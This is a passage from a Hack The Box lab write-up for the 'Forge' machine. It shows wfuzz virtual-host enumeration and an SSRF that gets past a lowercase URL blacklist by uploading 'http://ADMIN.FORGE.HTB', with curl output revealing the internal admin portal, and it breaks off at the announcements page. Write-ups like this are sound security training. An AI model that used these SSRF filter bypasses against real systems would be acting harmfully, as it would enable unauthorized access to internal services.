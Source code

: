 ```
```
Uploading a local file uploads our file to:
```
http://forge.htb/uploads/Ay808RGjmbkgqXktmaiz
```
The upload hash is always different, even when we try to upload the same picture. 

Lets try to find vhosts
```
➜ wfuzz -c -u 10.10.11.111 -H "HOST: FUZZ.forge.htb" -w ~/sec/SecLists/Discovery/DNS/directory-list-lowercase-2.3-big.txt --sc 200 -t 50
 /opt/homebrew/lib/python3.9/site-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.111/
Total requests: 1185254

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000256:   200        1 L      4 W        27 Ch       "admin - admin"
```

Okay, we have admin.forge.htb lets change /etc/hosts and try to access it.
Huhu, we can't see anything... It says localhost only. BUT WAIT! There is an upload functionality at forge.htb!
Maybe we can try to upload the page and check what it contains, lets give it a shot!

## SSRF
Upload the url http://ADMIN.FORGE.HTB it has to be in upper case because the url in lower case is probably blacklisted.
If we then curl the url given to us we see the source code of the index page :)
```
➜ curl http://forge.htb/uploads/1MVswuTmUvlUOfMINUjP
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>
```
There's a http://ADMIN.FORGE.HTB/announcements and http://ADMIN.FORGE.HTB/upload
Uploading the announcements url returns:
```
➜ curl http://forge.htb/uploads/t24uk5B6Xn79ZtMncTzg
<!DOCTYPE html>
```